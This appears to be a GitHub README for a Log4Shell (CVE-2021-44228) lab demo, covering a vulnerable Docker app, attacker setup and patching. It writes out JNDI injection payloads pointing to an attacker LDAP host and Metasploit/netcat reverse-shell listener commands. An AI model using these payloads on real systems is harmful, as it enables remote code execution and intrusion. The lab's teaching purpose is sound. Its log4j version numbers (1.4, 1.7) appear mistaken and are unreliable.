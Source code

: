 # Log4j Vulnerability
Log4j vulnerability demo for CVE-2021-44228. <br>
It is based on proof of concept demo by Kozmer and few modifications were made such as adding python and bash to docker to trigger meterpreter.
A new Application was re-built using same POC demo with new log4j libraries 
Kozimer's POC Github Link: https://github.com/kozmer/log4j-shell-poc

The application is vulnerable as it is logging username using Log4j using vulnerable log4j api library.

Logger logger = LogManager.getLogger(com.example.log4shell.log4j.class); </br>
logger.error(userName);</br>
out.println("&#60;code&#62; the password you entered was invalid, &#60;u&#62; we will log your information &#60;/u&#62; &#60;/code&#62;");</br>

As vulnerable application is logging invalid usernames, it is as easy as sending maliciously crafted JNDI lookup as username and malicious.server hosts a malicious Jar file that can create a reverse shell
Username: ${jndi:ldap://malicious.server/Exploit}

<br>
<br>
<br>

# Vulnerable Application setup instrutions(Non docker):

1)Pull/download the vulnerable application from the Github repo which is a modified version of kozmer's Repo:

    Vulenerable machine: https://github.com/sudesh0sudesh/log4jDemo_vulnerable

    Ref:https://github.com/kozmer/log4j-shell-poc

2) Install docker on your system.

   Linux: You can install it by executing the command(sudo apt install docker).
   Windows : Download Docker Desktop application.

3) Traverse into the folder containing the vulnerable application where you can see the docker file.

   To traverse you can use cd in both the operating systems.

4) Execute the below command to create a docker_image.

   Command: docker build . -t &#60;Image_name&#62;

5) Execute the below command to execute the docker_image.

    Command: docker run --network host  &#60;Image_name&#62;





# Setting up of Exploit machine:

1)Pull/download the exploit code from the Github repo:
 
   https://github.com/kozmer/log4j-shell-poc

2) The exploit was built using java 8, Download java-8u20

    https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html

3) Extract the java application and copy the JDK folder to log4j folder where you can see poc.py file.

    Commands: tar -xf jdk-8u20-linux-x64.tar.gz
             cp -R jdk1.8.0_20  &#60; log4j folder where you can see docker file;

4) Install the requirements needed as the process was automated using a python script that uses colorama(to display colored text) and argparse to read inputs from arguments.

    Commands:   pip install colorama argparse

5) Both Netcat and Metasploit can be used for listing reverse_tcp connections.

        Metasploit installation instructions can be found using the below url

        URL: https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers

        Netcat can be installed on linux using the below command.
        Command: Sudo apt install netcat

6) Allow the port that you want to allow connections for Ufw and let's call that port as Metasploit_listening_PORT.

    Command: ufw allow  &#60;Metasploit_listening_PORT&#62;

7) Start listening for connections on using reverse_tcp handler on metasploit.
   
    Commands:
        msfconsole -qa(Just to avoid banner).
        use /exploit/multi/handler
        set LHOST &#60;Exploit_Host_IP&#62;
        set LPORT &#60;Metasploit_listening_PORT&#62;
        exploit
    You can do the same thing using netcat.

    nc -lvnp &#60;Metasploit_listening_PORT&#62;

8) Traverse to the folder where poc.py file is present and execute the below command.

     Command: python3 poc.py --userip &#60;Exploit_Host_IP&#62; --webport &#60;Web_PORT&#62; --lport &#60;Metasploit_listening_PORT&#62; 

     Web_PORT can be any port greater than 5000, just to avoid conflicts.
     After the execution of poc.py you will find the JNDI lookup that should be passed as input on terminal.



# Exploitation:    

1) Visit the vulnerable webapplication via url.

    http://Vulnerable_machine_IP:8080

2) Now pass JNDI lookup as username and vulnerable application is logging username field on server side.
    
    ${jndi:ldap://Exploit_Host_IP:1389/a}

3) Now if we check metasploit or netcat we will find the reverse shell.


# Patching

1) Vulnerable application is using a log4jcore api version 1.4 which was vulnerable.

2) Download the log4j versions that are greater than 1.7 from the below link.
       
    https://logging.apache.org/log4j/2.x/download.html
    

3) Let's Extract the log4shell-1.0-SNAPSHOT.war and replace the log4j_api_1.4 library with log4j_api_1.7
 
    Path for libraries: log4j-shell-poc-main\target\log4shell-1.0-SNAPSHOT\WEB-INF\lib

4) Rebuild the log4shell-1.0-SNAPSHOT.war using jar which was installed as part of jdk.

    Command: jar -cvf log4shell-1.0-SNAPSHOT.war  *

5) Let's rebuild the docker image with modified application.

    Command: docker build . -t &#60;Image_name&#62;

6) Let's run the modified docker image using the below command.

    Command: docker run --network host  &#60;Image_name&#62;

7) For the sake of this demo, I have already created and stored in my github.

    Non Vuln machine: https://github.com/sudesh0sudesh/Log4jDemo_nonvuln

